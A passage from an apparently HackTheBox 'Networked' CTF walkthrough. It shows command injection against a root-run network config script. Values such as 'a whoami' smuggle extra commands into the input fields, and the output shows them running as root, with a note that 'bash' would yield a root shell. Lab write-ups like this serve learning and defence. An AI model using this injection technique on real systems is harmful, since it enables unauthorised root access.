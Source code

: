 Surprisingly, it seems that the second part splitting by space is being run as a independent command.

I think it's because linux system takes all non-space words as independent commands.

```bash
┌──(kali㉿kali)-[~/htb/networked]
└─$ test=test whoami
kali


┌──(kali㉿kali)-[~/htb/networked]
└─$ ls -al whoami                   
ls: cannot access 'whoami': No such file or directory
```

As we tested, it only works when there's no space within a single command line.

While `echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly` this command has spaces in it, the important point is that `$x` makes whatever commands in `x` to be run.

If the input is just a string, that'll not be the problem.
But if I put space within the `x` taking input, I can make it run as multiple commands.

So, it seems that I can put whatever single-word commands to run with this script.
Let's test this with `whoami` command.

```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
a whoami
a whoami
interface PROXY_METHOD:
b date
b date
interface BROWSER_ONLY:
c whoami
c whoami
interface BOOTPROTO:
d date
d date
root
Mon Mar 10 09:01:42 CET 2025
root
Mon Mar 10 09:01:42 CET 2025
root
Mon Mar 10 09:01:42 CET 2025
root
Mon Mar 10 09:01:42 CET 2025
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```

It works! I ran `whoami` and `date` commands as `root` user permission.
With this I can open a shell as `root` if I put `bash` command.
